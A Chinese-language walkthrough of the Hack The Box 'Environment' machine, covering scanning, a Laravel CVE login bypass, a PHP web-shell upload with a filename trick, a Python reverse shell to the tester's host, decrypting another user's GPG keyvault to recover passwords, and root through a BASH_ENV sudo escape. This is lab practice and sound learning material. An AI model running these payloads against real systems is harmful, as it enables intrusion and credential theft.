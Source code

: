 ```yaml
---
title: HTB Environment
published: 2025-06-02
pinned: false
description: HTB Environment，渗透，wp
tags: ['HTB']
category: 渗透
licenseName: "MIT"
author: zsm
draft: false
date: 2025-06-02
pubDate: 2025-06-02
---
```



## 前言
一个很有意思的靶机，HTB中等难度

## 外网打点
按照惯例nmap+dirsearch
```
nmap -sC -sV 10.10.11.67        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 20:35 CST
Stats: 0:01:21 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.63% done; ETC: 20:38 (0:01:29 remaining)
Stats: 0:02:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 54.81% done; ETC: 20:39 (0:01:50 remaining)
Stats: 0:03:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 61.43% done; ETC: 20:40 (0:01:54 remaining)
Stats: 0:05:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.51% done; ETC: 20:42 (0:01:19 remaining)
Stats: 0:06:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 94.33% done; ETC: 20:43 (0:00:25 remaining)
Stats: 0:06:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 94.34% done; ETC: 20:43 (0:00:25 remaining)
Nmap scan report for 10.10.11.67
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 python dirsearch.py -u http://environment.htb -w /Users/zsm/CTF/tool/kali_word/dirb/wordlists/big.txt     
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 20469

Target: http://environment.htb/

[20:45:45] Scanning:
[20:49:52] 301 -   169B - /build  ->  http://environment.htb/build/
[20:49:52] 301 -   169B - /build  ->  http://environment.htb/build/
[20:52:23] 200 -     0B - /favicon.ico
[20:55:04] 200 -    2KB - /login
[20:55:04] 302 -   358B - /logout  ->  http://environment.htb/login
[20:55:10] 405 -  244KB - /mailing
[20:58:33] 200 -    24B - /robots.txt
[21:00:09] 301 -   169B - /storage  ->  http://environment.htb/storage/
[21:01:19] 200 -    2KB - /up
[21:01:20] 405 -  244KB - /upload
[21:01:39] 301 -   169B - /vendor  ->  http://environment.htb/vendor/

Task Completed
```

有个很明显的登录页面，进去看看，随便输入试试
![image.png](https://www.helloimg.com/i/2025/06/02/683d46f115717.png)
有报错回显，但是目前不知道有什么可以打的地方  

`mailing`这个也可以访问，并且看见`PHP 8.2.28 — Laravel 11.30.0`，在登录去打[CVE-2024-52301](https://github.com/Nyamort/CVE-2024-52301)，并且这个页面好像可以泄漏部分源码的，但是我没怎么看，直接按照cve的打了  

成功登录之后发现有图片上传的地方，传个马上去，注意`*.php`的话访问只会下载，所以要`*.php.`
```
------WebKitFormBoundaryILrUEQYf3y8xqp85
Content-Disposition: form-data; name="upload"; filename="zsm.php."
Content-Type: image/png
```
成功拿到路径
```
{"url":"http:\/\/environment.htb\/storage\/files\/zsm.php","uploaded":"http:\/\/environment.htb\/storage\/files\/zsm.php"}
```
这个马是可以用的，但是不知道为什么`bash`弹一直出不来，我就直接用python弹了
>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.39",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

可以拿到user.txt
```
Connection from 10.10.11.67:44294
www-data@environment:~/app/storage/app/public/files$ ls
ls
bethany.png  hish.png  jono.png
www-data@environment:~/app/storage/app/public/files$ cd ~
cd ~
www-data@environment:~$ ls
ls
app  html
www-data@environment:~$ cd /home
cd /home
www-data@environment:/home$ ls
ls
hish
www-data@environment:/home$ cd hish
cd hish
www-data@environment:/home/hish$ ls
ls
backup	root.sh  user.txt
```

## 提权
先提权到用户`hish`，在`backup`里面发现好东西
```
www-data@environment:/home/hish/backup$ ls
ls
keyvault.gpg
```
有个gpg文件，找了个通用的方法
```
# 1. 拷贝 hish 用户的密钥目录
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. 设置权限
chmod -R 700 /tmp/mygnupg

# 3. 确认是否存在私钥
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. 解密 keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg

www-data@environment:~$ ls /tmp
ls /tmp
message.txt
mygnupg
systemd-private-71ad283a49be45459b5ebdeb26ff8e08-systemd-logind.service-dwJgyf
systemd-private-71ad283a49be45459b5ebdeb26ff8e08-systemd-timesyncd.service-LkFYou
vmware-root_499-2117352874
www-data@environment:~$ cat /tmp/message.txt
cat /tmp/message.txt
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
www-data@environment:~$ su hish
su hish
Password: marineSPm@ster!!
```
这个时候就是用户权限了，先正常信息收集
```
hish@environment:/var/www$ sudo -l
sudo -l
[sudo] password for hish: marineSPm@ster!!

Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```
其中可以看到`env_keep`保留了`ENV`和`BASH_ENV`两个环境变量因此可以用于绕过
```
hish@environment:~$ echo 'bash -p' > exp.sh
echo 'bash -p' > exp.sh
hish@environment:~$ chmod +x exp.sh
chmod +x exp.sh
hish@environment:~$ sudo BASH_ENV=./exp.sh /usr/bin/systeminfo
sudo BASH_ENV=./exp.sh /usr/bin/systeminfo
root@environment:/home/hish# id
id
uid=0(root) gid=0(root) groups=0(root)
root@environment:/home/hish# cat /root/*
cat /root/*
1ec8b9b660747555f3ee577fc32f3250
cat: /root/scripts: Is a directory
```

## 总结
知道cve很关键，感觉有必要屯一点cve的poc了，pgp文件很关键，要知道怎么做，最后就是环境变量的提权